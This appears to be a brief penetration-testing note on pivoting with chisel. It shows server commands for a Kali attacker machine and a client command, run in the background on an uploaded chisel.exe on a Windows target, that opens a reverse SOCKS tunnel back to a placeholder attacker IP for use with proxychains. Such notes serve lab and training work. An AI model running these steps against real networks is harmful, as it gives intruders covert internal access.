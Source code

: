 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/75a68da9-5a6f-4ac9-9110-b9fca3510271/Untitled.png)

upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4fa68b5-f62c-4f5a-a9f6-28601b830310/Untitled.png)

Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb2252b3-4735-45a4-ac46-52f2ae4e209d/Untitled.png)

try testing by use proxychains before command